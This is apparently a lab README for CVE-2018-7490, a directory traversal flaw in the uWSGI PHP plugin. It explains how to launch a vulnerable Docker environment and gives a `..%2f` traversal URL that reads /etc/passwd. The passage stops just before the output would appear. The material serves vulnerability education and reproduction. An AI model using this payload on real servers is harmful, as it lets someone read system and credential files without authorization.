

# uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

uWSGI is a web application server that implements protocols such as WSGI, uwsgi, and http, and supports running various languages through plugins.

The PHP plug-in before uWSGI 2.0.17 does not correctly handle the `DOCUMENT_ROOT` check, which allows users to read or run files outside the `DOCUMENT_ROOT` directory via `..%2f`.

## vulnerability environment

Run the vulnerable uWSGI server:

```
Docker-compose up -d
```

After the run is complete, visit `http://your-ip:8080/` to see the phpinfo information, indicating that the uwsgi-php server has run successfully.

## Vulnerability recurrence

Access `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd` to successfully read the file:

